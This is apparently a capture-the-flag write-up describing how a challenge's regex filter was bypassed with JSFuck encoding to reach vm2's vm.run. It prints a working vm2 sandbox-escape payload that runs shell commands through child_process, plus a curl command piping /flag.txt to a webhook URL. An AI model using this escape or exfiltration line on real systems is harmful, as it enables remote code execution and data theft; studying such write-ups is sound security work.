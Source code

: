As you can see in the code, our inputs are being passed to `vm.run(eqn);` without any filtering, except for a regex check `eqn.match(/[a-zA-Z]/)` that looks for alphabetic characters from a-zA-Z. So, how can we exploit this? The first thing I did was search for a way to bypass the regex check, since without bypassing this, the exploit will not work, right?”

After extensive searching and trying different methods, I found that we can bypass the filter using JSFuck.

JSFuck-encoded code is valid JavaScript, though highly obfuscated. When the `vm.run(eqn)` function is called, `vm2` parses and executes this obfuscated code just like it would with any other JavaScript code.

![image](https://cdn-images-1.medium.com/max/800/1*L2f0pSYrnttGw4j-32TVpQ.png)

Now we need to look for any available exploits for vm2, and I found this repository: https://github.com/rvizx/VM2-Exploit. While this is exactly what we need, it doesn’t use JSFuck encoding. Therefore, we will need to copy the payload ourselves and edit it using https://jsfuck.com/ Here, we can find the code we need: https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9

```
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('OUR PAYLOAD'); }
            )
        }
    }
};
p.then();
```

Now all we need to do is read the flag located at `/flag.txt`. I tried to get a reverse shell but it didn’t work, so I used a `curl` command to send the flag to our webhook

```
cat /flag.txt | curl -X POST -d @- https://webhook.site/8a47e6ce-1e7d-440e-a513-7fcd4cfc68f1
```

![image](https://cdn-images-1.medium.com/max/800/1*QQKGVm1dWeikpkbwEBsCjA.png)

![image](https://cdn-images-1.medium.com/max/800/1*WD-fiyxvw91jRAVo4UnO5g.png)


FLAG: ASCWG{C0c0_WAwaaaa}

